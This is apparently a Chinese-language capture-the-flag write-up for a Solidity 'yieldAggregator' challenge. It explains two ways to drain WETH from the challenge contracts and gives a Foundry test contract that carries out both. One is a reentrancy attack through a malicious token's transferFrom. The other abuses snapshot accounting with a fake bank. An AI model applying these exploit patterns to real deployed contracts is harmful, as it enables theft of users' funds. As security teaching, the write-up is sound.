 # yieldAggregator

## 分析

### 1.全局观

- YieldAggregator：只有存取款，但是方法有点特别
- Setup.sol
  - MiniBank：存取款
  - Setup：初始化题目

### 2.任务

使aggregator和bank合约的WETH归零

```solidity
function isSolved() public view returns (bool) {
        return weth.balanceOf(address(aggregator)) == 0 && weth.balanceOf(address(bank)) == 0;
    }
```

### 3.详细分析

先来看资产和状态：

|                 | ETH  | WETH | 授权                       | 状态                                                |
| --------------- | ---- | ---- | -------------------------- | --------------------------------------------------- |
| Setup           |      | 50   | WETH: YieldAggregator=>max |                                                     |
| YieldAggregator |      |      |                            | owner=Setup, poolTokens[Setup]=50ETH                |
| MiniBank        |      | 50   |                            | balanceOf[YieldAggregator]=50ETH, totalSupply=50ETH |

存取款方法，大概率是有逻辑问题：

- 批量存取款时候有bug比如一份msg.value重复使用？不可行
- totalSupply溢出导致try报错是否可以利用？不可行
- 直接在WETH转账给YieldAggregator和MiniBank？不可行
- 存取款先后顺序导致问题？也不行
- `address[] memory tokens`设置奇怪的内容？要试一下

#### 解法1

因为`deposit()`没有对`address[] memory tokens`进行检查，并且使用`poolTokens[msg.sender] += diff;`快照的方式记录存入的WETH数量，因此我们可以使用重入的方式进行攻击。

思路：第四步是因为我们传入的tokens实现的`transferFrom()`会重入`deposit()`，不是正常的转账逻辑，第五步才是正常的WETH转账逻辑

```
1.attacker gets 50WETH
2.preparation: approve
3.begin reentrancy
    4.  1st deposit(): call attacker's transferFrom()
    5.  2nd deposit(): call WETH's transferFrom()
	6.  2nd deposit(): protocol's WETH + 50, poolTokens[attacker] = 50
	7.  1nd deposit(): protocol's WETH + 50, poolTokens[attacker] = 100
8.withdraw
```

核心：外部可控地址、外部可控方法、重入导致快照错误

#### 解法2

由于只要有bank的WETH余额变化，快照都会记录，但是bank是可控的，这意味着我们可以伪造一个假的bank，然后让快照进行记录，之后再在真的bank中取款

## 解题

本题的关键点是：外部地址可控、外部方法可控，然后就可以进一步利用快照进行攻击

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.0;

import "forge-std/Test.sol";
import "../../src/08.YieldAggregator/Setup.sol";
import "./interface.sol";

contract attackTest is Test {
    string constant weth9_Artifact = 'out/tools/helper_WETH9.sol/WETH9.json';

    Setup public level;
    IWETH9 public weth;
    Protocol public protocol; // bank
    YieldAggregator public aggregator;

    function setUp() public {
        // 我们用 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4 进行部署
        payable(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4).transfer(100 ether);
        vm.startBroadcast(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4);

        // 部署WETH
        weth = IWETH9(deployHelper_weth(weth9_Artifact));
        vm.label(address(weth), "weth");

        level = new Setup{value: 100 ether}(address(weth));
        aggregator = level.aggregator();
        protocol = Protocol(address(level.bank()));

        vm.stopBroadcast();
    }

    function test_isComplete_solution01() public{

        // 先存50进去
        weth.deposit{value: 50 ether}();
        // 做一些授权准备
        weth.approve(address(aggregator), type(uint256).max);
        weth.approve(address(protocol), type(uint256).max);

        // 开始攻击
        address[] memory _tokens = new address[](1);
        _tokens[0] = address(this); // token是本合约，在transferFrom()的时候会重入deposit()
        uint256[] memory _amounts = new uint256[](1);
        _amounts[0] = 100;
        // deposit会重入攻击
        aggregator.deposit(protocol, _tokens, _amounts);

        // 正常取钱
        _tokens[0] = address(weth);
        _amounts[0] = 100 ether;
        aggregator.withdraw(protocol, _tokens, _amounts);

        // 检查是否完成题目
        assertEq(level.isSolved(), true);
    }

    function test_isComplete_solution02() public{

        // 先存50进去
        weth.deposit{value: 50 ether}();

        // 新建一个假的bank
        MiniBank fakeBank = new MiniBank(address(weth));
        // 做一些授权准备
        weth.approve(address(aggregator), type(uint256).max);
        weth.approve(address(protocol), type(uint256).max);
        weth.approve(address(fakeBank), type(uint256).max);

        // 在假的bank中进行存储，但是快照一样会进行拍照
        address[] memory _tokens = new address[](1);
        _tokens[0] = address(weth);
        uint256[] memory _amounts = new uint256[](1);
        _amounts[0] = 50 ether;
        aggregator.deposit(Protocol(address(fakeBank)), _tokens, _amounts);

        // 取款的时候，是在真的bank中取款，因为我们在快照中有余额，因此可以取款成功
        aggregator.withdraw(protocol, _tokens, _amounts);

        // 检查是否完成题目
        assertEq(level.isSolved(), true);
    }

    function approve( address dst, uint256 qty) external returns (bool) {
        return true;
    }

    // 不是正常的转账逻辑，而是重入deposit()
    function transferFrom( address src, address dst, uint256 qty) external returns (bool) {
        address[] memory _tokens = new address[](1);
        _tokens[0] = address(weth);

        uint256[] memory _amounts = new uint256[](1);
        _amounts[0] = 50 ether;
        aggregator.deposit(protocol, _tokens, _amounts);
        return true;
    }

    // 部署WETH
    function deployHelper_weth(string memory what) public returns (address addr) {
        bytes memory bytecode = vm.getCode(what);
        assembly {
            addr := create(0, add(bytecode, 0x20), mload(bytecode))
        }
    }
}
```

